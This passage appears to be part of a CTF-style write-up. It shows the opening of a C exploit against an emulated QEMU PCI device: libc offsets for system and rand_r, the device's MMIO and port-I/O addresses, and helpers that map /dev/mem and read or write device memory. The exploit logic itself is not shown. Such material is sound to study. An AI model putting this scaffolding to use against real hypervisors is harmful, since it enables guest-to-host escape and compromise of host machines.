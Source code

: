 ```assembly
```

exp

```assembly
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
 
#define libc_system_offset 0x55410
#define libc_rand_r_offset 0x4aeb0
 
const uint32_t mmio_phy_base = 0xfebf1000;
const uint32_t mmio_mem_size = 0x800;
const uint32_t pmio_phy_base = 0xc040;
 
const char sys_mem_file[] = "/dev/mem";
 
uint64_t mmio_mem = 0x0;
 
int die(const char *err_info){
    printf("[-] Exit with: %s\n.", err_info);
    exit(-1);
}
 
void *mmap_file(const char *filename, uint32_t size, uint32_t offset){
    int fd = open(filename, O_RDWR|O_SYNC);
    if(fd<0){
        printf("[-] Can not open file: '%s'.\n", filename);
        die("OPEN ERROR!");
    }
    void *ptr = mmap(NULL, size, PROT_READ|PROT_WRITE, MAP_SHARED, fd, offset);
    if(ptr==MAP_FAILED){
        printf("[-] Can not mmap file: '*%s'.\n", filename);
        die("MMAP ERROR!");
    }
    close(fd);
    return ptr;
}
 
//mmio op
void mmio_write(uint64_t addr, uint64_t val){
    *(uint64_t *)(mmio_mem+addr) = val;
}
 
uint64_t mmio_read(uint64_t addr){
    return *(uint64_t *)(mmio_mem+addr);
}
 
//pmio op
void pmio_write(uint32_t addr, uint32_t val){
    outl(val, pmio_phy_base+addr);
}
 
uint32_t pmio_read(uint32_t addr){
    return inl(pmio_phy_base+addr);
}
 
```